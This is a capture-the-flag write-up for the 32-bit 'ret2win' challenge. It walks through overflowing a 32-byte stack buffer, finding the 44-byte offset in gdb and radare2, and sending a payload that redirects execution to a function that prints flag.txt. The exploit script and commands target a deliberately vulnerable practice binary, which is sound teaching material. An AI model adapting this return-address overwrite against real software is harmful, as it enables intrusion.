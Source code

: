 # ret2win

Let's see what the binary does:

```
./ret2win
```

![](0.png)

My input was `ch35hireC4t` and the program ended.

OK. Now pay attention now to the big clue provided: **"I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer"**.

Let's start investigating:
1. Is it possible to overwrite the return address easily?
2. If so, where will we direct the program?

Remember that the goal is to print the contents of `flag.txt`

## Exploration
### Is it possible to overwrite the return address easily?
```
gdb ./re2win
```
```
r <<< $(python3 -c 'print("A"*44 + "B"*4)')
```
![](1.png)

### If so, where will we direct the program?
```
nm ret2win32 | grep " t "
```
![](2.png)

Maybe `ret2win` is our target?<br />
Let's see

```
r2 ./ret2win32
```
```
aaa
```
```
afl
```
```
s sym.ret2win
```
```
pdf
```
![](3.png)

Yes.

## Building exploit
```python
import struct

# create the exploit
garbage      = b'A'*44
ret2win_addr = struct.pack("<L", 0x0804862c)
expoit       = garbage + ret2win_addr

# using this output as ./ret2win input
print(expoit)
"""
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,\x86\x04\x08'
"""
```
```
echo $(perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,\x86\x04\x08"') | ./ret2win32
```

![](4.png)
